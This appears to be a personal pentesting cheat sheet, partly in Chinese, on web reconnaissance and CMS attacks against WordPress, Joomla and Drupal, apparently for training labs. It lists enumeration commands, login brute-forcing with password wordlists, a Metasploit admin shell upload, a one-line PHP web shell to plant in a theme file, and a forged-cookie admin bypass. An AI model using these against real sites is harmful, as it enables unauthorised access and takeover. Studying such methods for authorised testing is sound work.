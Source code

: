Step 1: 看源码/开洞察，看注释。
Step 2: 查看页面地图结构 --> robots.txt,sitemap.xml,CHANGELOG,.git,README,admin,login
Step 3: Add the server's Domain Name to the /etc/hosts if it has! (especially UMBRACO CMS！)
- virtual hosting (in apache) or in IIS (it's called name binding if I remember correctly)
Step 4: Wappalyzer, `Whatweb -v -a`
* 注意部分网站应用程序有利用漏洞(票据系统/除CMS外的系统)
	`/robots.txt /sitemap.xml /Changelog /.git /README /README.txt`
	`/.well-known/ /crossdomain.xml /clientaccesspolicy.xml`
# Prep Site
[[Brute Force & Default Password]
[URL Encode/Decode](https://meyerweb.com/eric/tools/dencoder/)
[HackTrick - Web - Methodology && Common technologies](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web)
- [TomCat](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat)
# Website Tech Stack Scan
```bash
Whatweb -v -a <website>
httpx -l targets.txt -sc -location -title -server -td -ip -t 100 -o httpx.out
#-sc: 显示响应状态码 -location: 显示响应重定向位置 -title: 显示网页标题 -server: 显示服务器名称 -td: 根据Wappalyzer数据集显示使用的技术 -ip: 显示主机IP -t: 线程数
```
# Specialised Scan
Web Tech Trick: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web#web-tech-tricks
## CMSmap
> Plugin, Users, themes
```bash
cmsmap #查找CMS的脆弱点，(W)ordpress, (J)oomla or (D)rupal
cmsmap.py https://example.com
cmsmap.py https://example.com -f W -F --noedb -d
cmsmap.py https://example.com -i targets.txt -o output.txt
cmsmap.py https://example.com -u admin -p passwords.txt
cmsmap.py -k hashes.txt -w passwords.txt
cmsmap -s http://www.domain.com -t 2 -a "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0"
```
## droopescan
For Jenkins - Groovy reverse-shell
```bash
curl -s http://dev.inlanefreight.local/ | grep Joomla #Version

droopescan scan drupal -u http://site
 #Joomscan
droopescan scan joomla --url http://site
sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
#https://github.com/ajnik/joomla-bruteforce 
```
## WordPress
工具双管齐下，不容易错失信息
### Curl
```bash
curl -s http://blog.inlanefreight.local | grep WordPress #Version
curl -s http://blog.inlanefreight.local/?p=1 | grep plugins
 # HackTrick : wordpress ...
use exploit/unix/webapp/wp_admin_shell_upload
```
### Wpscan
api token: https://wpscan.com/profile/
```bash
wpscan --url <url> --enumerate p  --plugins-detection aggressive  --api-token <wpscan website get>
wpscan --rua -e ap,at,tt,cb,dbe,u,m --url http://www.domain.com [--plugins-detection aggressive] --api-token <API_TOKEN> --passwords /usr/share/wordlists/seclists/Passwords/probable-v2-top1575.txt 
#Brute force found users and search for vulnerabilities using a free API token (up 50 searchs)
#You can try to bruteforce the admin user using wpscan with "-U admin"

# Login Burte Force
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```
### Abuse Theme
```php
# 进入到WP后台在配置主题页面，选择一个未激活的主题中不常用页面的(e.g. 404.php)
system($_GET[0]);
```

Other Tools: 
- Burp Suite
- OWASP Zap
- Cadaver
- SQLMap
- Joomscan
- Feroxbuster
# plain text cookie
e.g.
```http	
Set-Cookies: admin=false; logged_in=false
```

```bash
$ curl http://{$target_DOMAIN} -H "Cookie: admin=true; logged_in=false"
```
[CrackStation-破解HASH的字典](https://crackstation.net/)